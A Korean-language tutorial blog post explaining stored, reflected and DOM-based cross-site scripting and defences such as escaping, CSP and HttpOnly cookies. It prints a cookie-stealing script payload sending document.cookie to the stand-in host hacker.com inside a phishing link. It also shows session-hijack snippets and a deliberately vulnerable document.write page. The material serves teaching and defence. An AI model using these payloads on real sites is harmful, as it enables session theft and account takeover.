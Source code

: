 ```yaml
---
title: XSS와 대응방안
date: 2025-03-09 21:00:00 +0900
categories: [Tech, Security]
tags: [cross site scripting, 크로스사이트스크립팅, xss]
description: XSS와 그 대응방안에 대해 알아봅시다.
# pin: true # make a pin
---
```

> XSS와 그 대응방안에 대해 알아봅시다.
{: .prompt-info }

## 크로스 사이트 스크립팅
공격자가 웹사이트에 악성스크립트를 삽입하여 사용자에게 실행되도록 하는 취약점입니다.
XSS의 공격 대상은, 웹사이트의 사용자입니다. 원리는 악성 스크립트를 삽입하여 실행시킨다는 것을 이용합니다. 악성코드를 삽입하여 탈취한 정보로 세션을 탈취, 혹은 phising에 사용됩니다.

### Stored XSS (persistent 기법)
공격자가 악성 스크립트를 웹 애플리케이션의 데이터베이스에 저장하고, 해당 데이터가 웹 페이지에서 사용자에게 제공될 때 실행되는 방식입니다.

**"stored"** 해당 공격은 저장되어있는 데이터(악성코드가 함께 저장되어있는 데이터)를 이용하는 페이지에 방문한 모든 사람에게 영향을 줄 수 있는 특징이 있습니다. 

있음직한 시나리오로는,
1. 해커가 게시글을 저장할 때 악성코드가 포함된 게시글을 작성해 서버에 보내고, 
2. 서버에서는 해커가 입력한 값에 대해 필터링없이 바로 DB에 저장.
3. 해당 게시글을 열어보는 모든 유저에게 해커의 악성코드가 실행된다.

### Reflected XSS (non-persistent 기법)
공격자가 조작한 HTTP요청이 서버에서 처리되어 그대로 브라우저에 반환될 때 발생합니다.

**"reflected"** 를 통해 유추해보자면, 공격자의 악성 코드가 서버에서 처리되어 피해자에게 돌아오기 때문에 붙여짐을 알 수 있습니다! \
서버가 입력값을 검증 없이 응답 페이지에 삽입하여 반환하기 때문에 발생합니다.

해당 부분이 잘 이해가 가지 않아 시나리오를 작성해보았습니다.

1. 공격자가 조작된 URL을 피해자에게 보냄
2. 피해자가 클릭하면 요청이 서버로 전달됨
3. 서버가 입력값을 검증없이 그대로 응답에 포함 -> 브라우저에서 실행됨
4. 악성 Javascript가 실행되어 쿠키를 탈취함
5. 공격자가 피해자의 계정으로 로그인하여 추가적인 공격 수행

여기서 핵심은 요청할 때 마다 반사되어 브라우저에서 실행되는 것입니다. 

혹시나 저처럼 여기서 이해가 잘 되지 않았던 점이 있으시다면..
>해당 링크를 상대방이 실행되려면 해당 링크가 어딘가에는 저장되어야 되는 것이 아닌가?\
>해당 링크가 실행되는 사이트는 해커의 것이 아닌데 마음대로 어떻게 되는것인가?

조작된 URL을 이메일, SNS, 메신저와 같은 곳으로 피해자에게 보내는데, 이런식으로 보낼 수 있겠죠.
```
[업데이트를 확인하세요! / 메세지를 확인하세요! / ...](https://thisSiteHasVulnerablity.com/event?q=<script>document.location='http://hacker.com/steal?cookie='+document.cookie</script>")
```

https://thisSiteHasVulnerablity.com 해당 도메인이 XSS에 취약하다는 것을 해커가 이미 알고 있는 것입니다.
해당 도메인에 로그인이 되어있던 상태라면 피해자의 로그인정보를 담고있는 쿠키의 정보가 해커에게 보내게 되는 것이죠.
```HTML
<h1>Event Page</h1>
<p>검색 결과: <script>document.location='http://hacker.com/steal?cookie='+document.cookie</script></p>
```

즉, 결과적으로 Javascript가 피해자의 브라우저에서 실행이 되는 것입니다. (Reflected) \
해커는 탈취한 쿠키 값으로 피해자의 계정으로 로그인을 할 수 있게 됩니다.
```
document.cookie = "session=abcdefg12345"; // 피해자의 세션 쿠키 설정
window.location = "https://thisSiteHasVulnerablity.com/dashboard"; // 자동 로그인
```
요즘은 session기반이 아닌 jwt token을 이용해 인증을 하기 때문에 만약 jwt token이 탈취되었다면 이런식으로 요청을 보낼 수 있겠죠
```
GET /user/profile HTTP/1.1
Host: victim.com
Authorization: Bearer ey...
```

JWT token이 탈취되었을 때를 대비해 1. 짧은 만료 시간 설정 2. Refresh Token 전략, 3. jwt에 client의 ip or user-agent ... jwt 토큰 유효성을 확인할 때 같이 체크 등의 방안이 있을 수 있겠습니다. 해당 부분은 어떤 서비스를 제공하느냐 등에 따라 다르겠네요.

### DOM-based XSS (DOM 기반 XSS)
서버가 아닌 클라이언트 측에서 발생하는 XSS로, 웹페이지의 DOM조작을 통해 악성스크립트가 실행됩니다.
서버를 거치지 않고 client-side에서 실행되는 XSS이어서 탐지가 어렵다는 특징이 있습니다.

이 것도 조금 헷갈리는 게 있어서 정리해보자면,
`취약한 코드`는 서버에서 이미 가지고 있는 코드입니다. 서버에서 -> 클라이언트한테 주는 코드입니다. 하지만 해당 코드는 다시 서버에 오지 않고 HTML을 조작하는 코드입니다. 해커가 분석을 해보니 취약한 코드가 있는 것을 알아낸 것이죠. reflected처럼 조작된 URL을 피해자가 누르게끔 유도합니다.`https://thisSiteHasVulnerablity.com/page.html?<script>alert('XSS')</script>`


```HTML
<!DOCTYPE html>
<html>
<head>
    <title>DOM-based XSS Example</title>
</head>
<body>
    <script>
        // 서버에서 클라이언트(브라우저)에게 제공하는 취약한 코드
        document.write("<h1>" + location.search.substring(1) + "</h1>");
    </script>
</body>
</html>
```


`document.write()`라는 취약한 코드가 담긴 html문서를 server에서 받았습니다. 해당 script는 client-side에서 실행되는 코드이지요. 해커가 준 URL을 눌렀으면 `<script>alert('CSS')</script>`가 바로 실행되는 것입니다. 

그 외 취약한 함수로는 
1. `eval()` 입력값을 코드로 실행 
    - eval(userInput);
2. `innerHTML` 입력값을 HTML로 삽입 
    - element.innerHTML = userInput;
3. `outerHTML` 요소자체를 변경 
    - element.outerHTML = userInput;
4. `setAttribute()` HTML속성 변경 
    - element.setAttribute('onmouseover', userInput)
5. `location.href` 리디렉션 조작 가능
    - location.href = userInput
6. `location.search`, `location.hash` URL 파라미터 읽기
    - document.write(location.search);
7. `window.open()` 새 창을 열고 실행 가능
    - window.open(userInput);
8. `setTimeout()`, `setInterval()` 문자열 실행 가능
    - setTimeout(userInput, 1000);



## XSS 대응방안
1. 입력값 검증 (Input Validation) 
    - 사용자가 입력하는 데이터를 저장하기 전에 스크립트 코드를 차단합니다. `<script>, onerror, onclick, javascript: `등
    -  서버 측에서 정규식을 사용하여 위험한 코드를 제거합니다. (클라이언트 측에서 필터링은 신뢰하면 안됨)
    - 허용된 HTML 태그만 남기도록 화이트리스트 방식을 적용합니다. 
2. 저장 시 필터링 (Storage Filtering)
    -  저장 시 악성 코드가 포함되지 않도록 화이트리스트(허용된 문자만 저장)방식 적용
3. 출력 시 이스케이프 처리 (Output Escaping)
    - 데이터를 출력할 때 HTML에서 `<`는 `&lt;` `>`는 `&gt;`로 변환합니다.
    - Javascript에서 `innerHTML`는 사용하지 않고, `innerTEXT`or `textContent`를 씁니다. 
4. CSP를 적용합니다.
    - `Content-Security-Policy script-src 'self'`를 적용해 외부 스크립트 실행을 차단합니다.
5. 보안 헤더를 적용합니다.
    - HTTP-only & Secure 쿠키를 설정해 쿠키 탈취를 방지합니다.
    `Set-Cookie:` 으로 쿠키 세팅 시, `HttpOnly; Secure` 옵션을 추가하여 Javascript에서 쿠키 접근을 차단하고 HTTPS에서만 쿠키를 전송하도록 합니다. 
6. WAF(Web Application Firewall) 사용
    - 웹 방화벽으로 XSS 패턴을 탐지해 차단합니다. (SQL Injextion, XSS, CSRF 등 다양한 웹 공격을 탐지 가능)

### CSP, WAF ?

CSP는 브라우저에서 악성 코드 실행을 방지\
Web Application Firewall은 서버 앞에서 악성 요청 필터링

여기까지 XSS에 대해 알아보았습니다. 해당 개념을 들었던 것은 꽤나 예전입니다만 보안을 공부하면서 궁금한 점을 파고들어갔더니 잘 이해되었습니다! 특히 어떻게 혼자 실행이 된다는 거지? 싶었던 것들을 보며 코드를 작성할 때 주의해야겠다는 생각도 드는군요👩‍💻

### 참고문헌 및 각주
<https://owasp.org/www-community/attacks/xss/>